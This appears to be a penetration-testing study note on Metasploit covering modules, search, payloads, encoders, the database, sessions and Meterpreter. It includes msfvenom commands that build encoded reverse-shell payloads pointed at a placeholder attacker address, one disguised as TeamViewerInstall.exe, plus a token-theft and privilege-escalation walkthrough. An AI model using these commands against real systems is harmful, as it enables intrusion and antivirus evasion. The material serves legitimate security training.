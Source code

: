 
# 🕷️ Metasploit Framework  
*Within this eldritch grimoire lies a vast arsenal of arcane tools for network divination, weaving attacks, and unraveling the deepest secrets of target systems. Harness its dark power to evade the watchful eyes, ascend to forbidden privileges, and command dominion after the breach.*

> *“To command the shadows is to master the unseen forces that bind the network.”*

<details>
<summary><h2>⚠️ Warnings to the Seeker of Shrouded Truth ⚠️</h2></summary>

**Do not get tunnel vision.**
> *Beware the madness that comes from gazing too long into a single artifact. The Framework is but one relic among many—do not let it become your crutch or your altar. Use it with intent, not dependence.*

**Please read all the technical documentation you can find for any of our tools.**
> *Before invoking forgotten runes, one must study the glyphs etched in the margins of the old tomes. Knowledge is the warding circle that keeps the daemon in the cage. Read. Absorb. Comprehend.*

**Many tools can prove to be unpredictable.**
> *Every incantation comes with a price. Some conjurations may awaken watchers, leaving ghostly footprints across the target's domain. Others may tear open rifts in your own sanctum. Always proceed with wards in place and a retreat mapped.*

</details>

---

<details>
<summary><h2>📥 Installation</h2></summary>

The official Metasploit Repository can be found [here](https://github.com/rapid7/metasploit-framework/).  

**Install**

```bash
sudo apt update && sudo apt install metasploit-framework
```

**Verify installation**

```bash
msfconsole -q
```

</details>

---

<details>
<summary><h2>📜 Introduction</h2></summary>

**Modules**

```bash
ls /usr/share/metasploit-framework/modules
```  

**Plugins**

```bash
ls /usr/share/metasploit-framework/plugins/
```  

**Scripts**

```bash
ls /usr/share/metasploit-framework/scripts/
```  

**Tools**

```bash
ls /usr/share/metasploit-framework/tools/
```  

</details>

---

<details>
<summary><h2>🧩 MSF Components</h2></summary>

<details>
<summary><h3>Modules</h3></summary>

Metasploit modules are pre-built scripts designed for specific tasks, each with corresponding functions that have been thoroughly developed and tested in real-world scenarios.

Within the msfconsole, users can choose from a comprehensive collection of available Metasploit modules. These modules are organized into folders, displayed in the following structure:

**Syntax**  

```bash
<No.> <type>/<os>/<service>/<name>
```  

**Example**  

```bash
794   exploit/windows/ftp/scriptftp_list
```  

<details>
<summary><h4>Explanation</h4></summary>

**Index No.**

The No. tag will be displayed to select the exploit we want afterward during our searches.

**Type**

The **Type** tag categorizes Metasploit modules at the highest level. By examining this field, we can determine the module’s intended function. Some types—such as exploit modules—are not directly executable but exist for structural and organizational purposes.

The table below consolidates all possible module types, their descriptions, and indicates whether they can be directly interacted with (e.g., via **use <no.>**).

| Type      | Description                                                                                   | Interactable |
|-----------|-----------------------------------------------------------------------------------------------|--------------|
| Auxiliary | Scanning, fuzzing, sniffing, and admin capabilities. Offer extra assistance and functionality.| ✅           |
| Encoders  | Ensure that payloads are intact to their destination.                                         | ❌           |
| Exploits  | Exploit a vulnerability that allows for payload delivery.                                     | ✅           |
| NOPs      | (No Operation code) Keep payload sizes consistent across exploit attempts.                    | ❌           |
| Payloads  | Code that runs remotely and calls back to the attacker to establish a connection or shell.    | ❌           |
| Plugins   | Additional scripts integrated within assessments via `msfconsole`.                            | ❌           |
| Post      | Modules for information gathering, pivoting deeper into the network, and more.                | ✅           |

**OS**  

The OS tag indicates the target operating system and architecture for which the module was designed. Since different operating systems require distinct code execution methods, this tag ensures compatibility with the intended environment.

**Service**  

The Service tag identifies the vulnerable service running on the target machine. However, for certain modules (e.g., auxiliary or post), this tag may represent a broader action—such as _gather_—which refers to activities like credential collection.

**Name**

The Name tag describes the module's core function—the specific action it performs for its intended purpose.

</details>

<details>
<summary><h4>Search</h4></summary>

Search function

```bash
msf6 > help search
```  

Searching for a module

```bash
msf6 > search eternalblue
```  

Specific search

```bash
msf6 > search type:exploit platform:windows cve:2021 rank:excellent microsoft
```  

Specific payload search

```bash
msf6 > grep meterpreter show payloads
```

Even more specific search

```bash
msf6 > grep meterpreter grep reverse_tcp show payloads
```

</details>

<details>
<summary><h4>Select</h4></summary>

Select Module

```bash
msf6 > use 0
```  

Show options

```bash
msf6 > options
```  

</details>

<details>
<summary><h4>Set</h4></summary>

**Target Specification**

```bash
msf6 > set RHOSTS <TARGET IP>
```  

**Permanent Target Specification**

```bash
msf6 > setg RHOSTS <TARGET IP>
```  

**Target Port Specification**

```bash
msf6 > set RPORT <TARGET PORT>
```  

**Attacker IP specification**

```bash
msf6 > set LHOST <ATTACKER IP>
```  

**Permanent Attacker IP specification**

```bash
msf6 > setg LHOST <ATTACKER IP>
```  

**Attacker Port Specification**

```bash
msf6 > set LPORT <ATTACKER PORT>
```  

</details>

<details>
<summary><h4>Information</h4></summary>

Show info

```bash
msf6 > info
```  

</details>

<details>
<summary><h4>Exploit Execution</h4></summary>

Execute

```bash
msf6 > run
```

</details>

</details>


<details>
<summary><h3>Common Payloads</h3></summary>

The table below contains the most common payloads used for Windows machines and their respective descriptions.


| Payload                             | Description                                                                 |
|-------------------------------------|-----------------------------------------------------------------------------|
| generic/custom                      | Generic listener, multi-use                                                |
| generic/shell_bind_tcp              | Generic listener, multi-use, normal shell, TCP connection binding          |
| generic/shell_reverse_tcp           | Generic listener, multi-use, normal shell, reverse TCP connection          |
| windows/x64/exec                    | Executes an arbitrary command (Windows x64)                                |
| windows/x64/loadlibrary             | Loads an arbitrary x64 library path                                        |
| windows/x64/messagebox              | Spawns a dialog via MessageBox with customizable title, text & icon        |
| windows/x64/shell_reverse_tcp       | Normal shell, single payload, reverse TCP connection                       |
| windows/x64/shell/reverse_tcp       | Normal shell, stager + stage, reverse TCP connection                       |
| windows/x64/shell/bind_ipv6_tcp     | Normal shell, stager + stage, IPv6 Bind TCP stager                         |
| windows/x64/meterpreter/$           | Meterpreter payload + varieties above                                      |
| windows/x64/powershell/$            | Interactive PowerShell sessions + varieties above                          |
| windows/x64/vncinject/$             | VNC Server (Reflective Injection) + varieties above  

</details>

<details>
<summary><h3>Targets</h3></summary>

The **Target** field specifies particular operating system versions that the exploit module has been adapted to work with. These unique OS identifiers allow the module to customize its execution for specific system versions.

**Show Targets**  

```bash
msf6 > show targets
```

Regular output:
```bash
# Exploit targets:
# 
#    Id  Name
#    --  ----
#    0   Automatic
```

Exploit-specific output:
```bash
# Exploit targets:
# 
#    Id  Name
#    --  ----
#    0   Automatic
#    1   IE 7 on Windows XP SP3
#    2   IE 8 on Windows XP SP3
#    3   IE 7 on Windows Vista
#    4   IE 8 on Windows Vista
#    5   IE 8 on Windows 7
#    6   IE 9 on Windows 7
```

**Select Targets**  

```bash
msf6 > set target 6
```

</details>

<details>
<summary><h3>Payloads</h3></summary>

In Metasploit, a payload is a module that enables successful exploitation, typically by establishing a shell session for the attacker. 

**Show all payloads**

```bash
msf6 > show payloads
```

The framework provides three distinct payload types:


<details>
<summary><h4>1. Singles</h4></summary>

A _Single_ payload contains the exploit and the entire shellcode for the selected task. Inline payloads are by design more stable than their counterparts because they contain everything all-in-one. A Single payload can be as simple as adding a user to the target system or booting up a process.
</details>

<details>
<summary><h4>2. Stagers</h4></summary>

_Stager_ payloads work with Stage payloads to perform a specific task. A Stager is waiting on the attacker machine, ready to establish a connection to the victim host once the stage completes its run on the remote host. Stagers are typically used to set up a network connection between the attacker and victim and are designed to be small and reliable.  

</details>

<details>
<summary><h4>3. Stages</h4></summary>

_Stages_ are payload components that are downloaded by stager's modules.  

Payload stages automatically use middle stagers:

* A single recv() fails with large payloads
* The Stager receives the middle stager
* The middle Stager then performs a full download
* Also better for RWX

</details>

</details>

<details>
<summary><h3>Staged Payloads</h3></summary>

A staged payload modularizes the exploitation process by separating functionality into discrete components. Each stage performs specific tasks while chaining together to execute the complete attack.

Like all payloads, its objectives are twofold:

1. Establish shell access on the target system

2. Maintain minimal footprint to evade AV/IPS detection

**Connection Methodology:**

* Stage 0 (Reverse Connection):

    * The victim host initiates contact back to the attacker

    * Lower detection risk as the connection originates from within the target's security trust zone

    * Establishes initial communication channel

* Stage 1 (Shell Access):

    * After stable connection is established

    * Attacker delivers the larger, more functional payload component

    * Typically provides full shell access and control

<details>
<summary><h4>Meterpreter Payload</h4></summary>

The Meterpreter payload is a specific type of multi-faceted payload that:

- Uses **DLL injection** to establish a stable and covert connection with the victim host.
- Is designed to be **difficult to detect** using simple or conventional system checks.
- Maintains **persistence** across system reboots or changes (depending on configuration).
- Resides **entirely in memory**, leaving **no traces on the hard drive**.
- Evades many **traditional forensic detection techniques**.
- Allows **dynamic loading and unloading of scripts and plugins** during runtime.

</details>

</details>

<details>
<summary><h3>Encoders</h3></summary>

Encoders have assisted with making payloads compatible with different processor architectures while at the same time helping with antivirus evasion. These architectures include:

- x64
- x86
- sparc
- ppc
- mips

Encoders were packed separately from the msfconsole script and were called **msfpayload** and **msfencode**. These two tools are located in _/usr/share/framework2/_.

**Generating Payload - Without Encoding**

```bash
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=<ATTACKER IP> LPORT=<ATTACKER PORT> -b "\x00" -f perl
```  

**Generating Payload - With Encoding**

```bash
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=<ATTACKER IP> LPORT=<ATTACKER PORT> -b "\x00" -f perl -e x86/shikata_ga_nai
```  

**Generate a payload with the exe format, called TeamViewerInstall.exe**  

```bash
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=<ATTACKER IP> LPORT=<ATTACKER PORT> -e x86/shikata_ga_nai -f exe -o ./TeamViewerInstall.exe
```  

**Generate a payload with the exe format, called TeamViewerInstall.exe running it through multiple iterations**  

```bash
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=<ATTACKER IP> LPORT=<ATTACKER PORT> -e x86/shikata_ga_nai -f exe -i 10 -o ./TeamViewerInstall.exe
```  

As anticipated, most commercial antivirus solutions can detect these payloads during real-world engagements. Therefore, additional evasion techniques become necessary to bypass modern endpoint protection systems.

</details>

<details>
<summary><h3>Databases</h3></summary>

The Metasploit Framework utilizes databases within msfconsole to systematically store and manage penetration testing results. The system features native PostgreSQL integration, providing:

**Key Benefits:**

* Instant access to scan results and historical data

* Efficient data management through direct database interaction

* Seamless import/export functionality for integration with external tools

<details>
<summary><h4>Setting up the Database</h4></summary>

**PostgreSQL Status**

```bash
sudo service postgresql status
```  

**Start PostgreSQL**
```bash
sudo systemctl start postgresql
```  

**Initiate a Database**
```bash
sudo apt-get upgrade metasploit-framework
sudo msfdb init
```  

**MSF - Database Status**

```bash
sudo msfdb status
``` 

**MSF - Connect to the Initiated Database**  

```bash
sudo msfdb run
``` 

If your database is already configured but you're unable to modify the MSF user password, use the following command sequence:

**MSF - Reinitiate the Database**

```bash
msfdb reinit
cp /usr/share/metasploit-framework/config/database.yml ~/.msf4/
sudo service postgresql restart
msfconsole -q
``` 

**MSF - msf6 Database Status**

```bash
msf6 > db_status
``` 

**MSF - Database Options**  

```bash
msf6 > help database
``` 

**MSF - Using Nmap Inside MSFconsole**  

```bash
msf6 > db_nmap -sV -sS <TARGET IP>
``` 

**MSF - Review scan results**  

```bash
msf6 > hosts -h
msf6 > services -h
msf6 > creds -h
msf6 > loot -h
``` 

**MSF - Database Backup**  

```bash
msf6 > db_export -f xml backup.xml
``` 

</details>

</details>

<details>
<summary><h3>Plugins</h3></summary>

Metasploit plugins interact directly with the framework’s API, enabling deep integration and control. They serve three primary purposes:

* Automation – Streamline repetitive tasks

* Extensibility – Add custom commands to msfconsole

* Enhancement – Expand the framework’s built-in capabilities

**Listing plugins**  

```bash
ls /usr/share/metasploit-framework/plugins
``` 

**MSF - Load Plugin**  

```bash
msf6 > load nessus
msf6 > nessus_help
``` 

**Downloading plugins**  

```bash
git clone https://github.com/darkoperator/Metasploit-Plugins
ls Metasploit-Plugins
``` 

**MSF - Copying Plugin to MSF**  

```bash
sudo cp ./Metasploit-Plugins/pentest.rb /usr/share/metasploit-framework/plugins/pentest.rb
``` 

**MSF - Load the new plugin**  

```bash
msf6 > load pentest
msf6 > help
``` 

</details>

</details>

---

<details>
<summary><h2>🤝 MFS Sessions</h2></summary>

<details>
<summary><h3>Sessions</h3></summary>

**Multi-Session Management in MSFconsole**

MSFconsole supports concurrent management of multiple modules and sessions. Key capabilities include:

1. Session Switching – Seamlessly transition between active sessions

2. Module Linking – Attach new modules to backgrounded sessions

3. Job Conversion – Convert sessions into persistent background jobs

**Important Notes:**

* Backgrounded sessions maintain active connections to target hosts

* Sessions may terminate unexpectedly due to:

    * Payload execution failures

    * Communication channel disruptions

**Backgrounding Sessions in MSFconsole**  

Active sessions can be backgrounded when they maintain communication with the target host. This allows operators to:

* Preserve established connections

* Switch between multiple engagements

* Deploy additional modules without session interruption

**Backgrounding Methods:**

1. Keyboard Shortcut: CTRL+Z (Universal)

2. Meterpreter Command: meterpreter > bg

**Process Flow:**

1. Initiate background request

2. Confirm action via prompt

3. Return to msf6

4. Immediately deploy new modules

**Listing Active Sessions**

```bash
msf6 exploit(windows/smb/psexec_psh) > sessions
```  

**Interacting with a Session**

```bash
msf6 exploit(windows/smb/psexec_psh) > sessions -i 1
``` 

</details>

<details>
<summary><h3>Jobs</h3></summary>

When an active exploit occupies a port needed for another module, improper termination (e.g., CTRL+C) leaves the port bound. Instead, follow this procedure:

**1. Check Active Jobs**

```bash
msf6 > jobs -l
``` 

**2. Terminate Conflicts**

```bash
msf6 > jobs -k <ID>
``` 

**Jobs Command Help Menu**  

```bash
msf6 > jobs -h
``` 

**Running an Exploit as a Background Job**  

```bash
msf6 > exploit -j
``` 

</details>

<details>
<summary><h3>Meterpreter</h3></summary>

The Meterpreter payload is an advanced, modular attack platform that employs sophisticated techniques to maintain stealth and persistence:

<details>
<summary><h4>Objectives</h4></summary>

* Provide a stable, extensible platform for internal host enumeration

* Facilitate rapid privilege escalation path discovery

* Enable advanced defensive evasion techniques

</details>

<details>
<summary><h4>Capabilites</h4></summary>

* Utilizes reflective DLL injection for stable, low-detectability implants

* Supports memory-only operation (no disk artifacts)

* Features configurable persistence mechanisms

</details>

<details>
<summary><h4>Operational Advantages</h4></summary>

1. Stealth Characteristics

    * No traditional process spawning

    * Avoids disk writes (in-memory execution only)

    * Encrypted communications channel

2. Persistence Options

    * Survives system reboots when properly configured

    * Maintains sessions through network changes

    * Supports migration between processes

3. Extended Functionality

    * Modular architecture for on-demand capability expansion

    * Built-in privilege escalation techniques

    * Comprehensive post-exploitation toolkit
</details>

<details>
<summary><h4>Using Meterpreter</h4></summary>

**MSF - Help**

```bash
meterpreter > help
``` 

**MSF - Meterpreter Migration**

```bash
meterpreter > getuid
# [-] 1055: Operation failed: Access is denied.

meterpreter > ps
# Process List
# ============
# 
#  PID   PPID  Name               Arch  Session  User                          Path
#  ---   ----  ----               ----  -------  ----                          ----
#  0     0     [System Process]                                                
#  4     0     System                                                  #         
#  216   1080  cidaemon.exe                                                    
#  272   4     smss.exe                                                     #    
#  292   1080  cidaemon.exe                                                    
# <...SNIP...>

# 1836  592   wmiprvse.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\wbem\wmiprvse.exe


meterpreter > steal_token 1836
# Stolen token with username: NT AUTHORITY\NETWORK SERVICE

meterpreter > getuid

# Server username: NT AUTHORITY\NETWORK SERVICE

``` 

**MSF - Meterpreter Migration**
```bash
meterpreter > bg

# Background session 1? [y/N]  y

msf6 exploit(windows/iis/iis_webdav_upload_asp) > search local_exploit_suggester

# Matching Modules
# ================
# 
#    #  Name                                      Disclosure Date  Rank    Check  Description
#    -  ----                                       ---------------  ----    -----  -----------
#    0  post/multi/recon/ local_exploit_suggester                   normal   No     Multi Recon Local Exploit Suggester

msf6 exploit(windows/iis/iis_webdav_upload_asp) > use 0
msf6 post(multi/recon/local_exploit_suggester) > show options

# Module options (post/multi/recon/local_exploit_suggester):
# 
#    Name             Current Setting  Required  Description
#    ----             ---------------  --------  -----------
#    SESSION                           yes       The session to run this module on
#    SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits

msf6 post(multi/recon/local_exploit_suggester) > set SESSION 1

# SESSION => 1

msf6 post(multi/recon/local_exploit_suggester) > run

# [*] 10.10.10.15 - Collecting local exploits for x86/windows...
# [*] 10.10.10.15 - 34 exploit checks are being tried...
# [+] 10.10.10.15 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
# [+] 10.10.10.15 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
# [+] 10.10.10.15 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
# [+] 10.10.10.15 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
# [+] 10.10.10.15 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
# [+] 10.10.10.15 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
# [*] Post module execution completed 

msf6 post(multi/recon/local_exploit_suggester) > 
```

</details>

</details>

</details>

---

<details>
<summary><h2>➕ Additional Features</h2></summary>

Text

<details>
<summary><h3>Writing & Importing Modules</h3></summary>

Text

</details>

<details>
<summary><h3>Introduction to MSFVenom</h3></summary>

Text

</details>

<details>
<summary><h3>Firewall and IDS/IPS evasion</h3></summary>

Text

</details>

</details>

---

📘 **Next step:** Continue with [PASSWORD ATTACKS](./07-password-attacks.md)
